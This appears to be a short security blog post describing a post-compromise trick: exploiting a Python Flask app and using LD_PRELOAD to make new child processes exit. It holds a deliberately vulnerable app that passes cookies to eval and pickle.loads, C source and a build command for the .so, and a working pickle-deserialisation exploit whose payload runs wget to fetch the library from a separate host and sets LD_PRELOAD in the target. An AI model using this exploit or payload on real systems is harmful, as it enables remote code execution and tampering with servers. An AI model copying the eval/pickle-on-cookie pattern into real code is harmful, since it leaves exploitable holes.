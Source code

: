 ```yaml
---
title:  "Cripple Python Vulnerabilities with LD_PRELOAD"
tags:
  - Python
  - post-compromise
  - LD_PRELOAD
related: false
---
```


A novel use for LD_PRELOAD when exploiting Python vulnerabilities

On Linux the LD_PRELOAD environmental variable (or /etc/ld.so.preload file) will load the specified shared library files first, selectively overriding functions of any other library found in the LD_LIBRARY_PATH.  This is useful for debugging, patching bugs, and [escalating privileges to root](http://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html).

A novel idea is to use LD_PRELOAD to cripple certain Python vulnerabilities.  Consider the following vulnerable Flask application that allows arbitrary execution of Python code within the process.

```python
from base64 import b64decode
import pickle
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['GET', 'PUT'])
def index():
    try:
        if 'eval' in request.cookies:
            eval(request.cookies['eval'])

        if 'pickle' in request.cookies:
            pickle.loads(b64decode(request.cookies['pickle']))
    except Exception as e:
        print(e)


app.run()
```

Unlike PHP and Java, Python allows the process environmental variables to change at runtime.  Child process inherit the environment from the parent, so by setting the LD_PRELOAD variable we can poison processes created via the vulnerability.  By overriding the `_init` [function](http://www.faqs.org/docs/Linux-HOWTO/Program-Library-HOWTO.html#INIT-AND-CLEANUP) it is possible to kill new child process when the linker attempts to load shared libraries.

```c
#include <stdlib.h>

void
_init() {
    exit(0);
}
```

```bash
gcc -fPIC -shared -nostartfiles -o .so src.c
```

To cripple the vulnerability, download the shared library and set the LD_PRELOAD environment variable.

```python
from base64 import b64encode
import pickle
import requests
import os

payload = '__import__("os").system("wget http://10.0.0.2/.so -O /tmp/.so") & __import__("os").environ.__setitem__("LD_PRELOAD", "/tmp/.so")'

class Exploit(object):
    def __reduce__(self):
        return eval, (payload,)


if True:
    requests.post('http://10.0.0.3:5000/', cookies={'pickle': b64encode(pickle.dumps(Exploit())).decode()})
else:
    requests.post('http://10.0.0.3:5000/', cookies={'eval': payload})
```
